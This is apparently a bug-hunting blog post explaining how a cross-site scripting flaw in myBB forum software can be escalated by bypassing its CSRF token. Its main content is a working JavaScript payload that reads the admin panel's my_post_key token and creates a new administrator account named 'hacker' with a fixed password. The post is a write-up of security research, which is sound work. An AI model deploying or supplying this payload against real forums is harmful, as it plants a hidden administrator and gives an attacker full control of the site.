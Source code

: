 ```yaml
---
layout: post
title:	"myBB - Add Administrator via XSS"
date:	2019-05-29 03:00:00
categories:
    - notes
tags:
    - bug_hunting
    - bug_writeup
---
```

<head>
	<title> myBB - Add Administrator via XSS </title>
</head>


# i. Introduction
While browsing Twitter, I happened to come upon [hakluke's](https://twitter.com/hakluke) blog post about upgrading an XSS from a medium to a critical bug. Long story short it detailed on how an XSS is able to bypass most CSRF protection mechanisms, and completely bypassing the Same Origin Policy. The most popular anti-CSRF mechanism are CSRF tokens. However, Javascript is able to request the form, parse the token, and then send it along with the subsequent request to perform a sensitive action. 

If you would like to read more about how this works, I highly recommend reading hakluke's blog post which can be found here: https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

hakluke included several proof of concepts for popular CMS platforms such as Wordpress and Drupal. I decided I wanted to give it a shot, and try testing it with a forum software that we all know and love... myBB. 

There are several reasons why I chose myBB, however the major one was that developers are able to create their own plugins similar as to Wordpress. By allowing developers to create third party plugins, it opens the door for a plethora of bugs, which XSS seems to be common. 


# ii. Exploitation

I have modified hakluke's original Wordpress script to work with myBB.

Script:
~~~
/*
mybb - adds administrator with username hacker and password hacker12345
tested on latest version of mybb v1.8.20
original script by hakluke modified by mqt
*/
var mybb_root = "" // don't add a trailing slash
var req = new XMLHttpRequest();
var url = mybb_root + "/admin/index.php?module=user-users&action=add";
var regex = /my_post_key" value="([^"]*?)"/g;
req.open("GET", url, false);
req.send();
var nonce = regex.exec(req.responseText);
var nonce = nonce[1];
var params = "my_post_key="+nonce+"&username=hacker&password=hacker12345&confirm_password=hacker12345&email=hacker@hacker.com&usergroup=4&displaygroup=0"; //make sure passwod is 6+ chars
req.open("POST", url, true);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(params);
~~~ 

In short, in order to perform any sensitive action in the myBB Admin Panel, there is a token that is required which is called `my_post_key`. The following script sends a request to the myBB Admin Panel (which seems to have a lifespan of 30 minutes before asking the user to reauthenticate), retrieves the source and parses it looking for `my_post_key`. Once it finishes, it sends a subsequent request to add a user to the Administrator group with the username as hacker and password as hacker12345.


Here is a video proof of concept demonstrating it in action:
[video poc]

# iii. Conclusion

[note about xss]


As always, thank you for reading,
- mqt
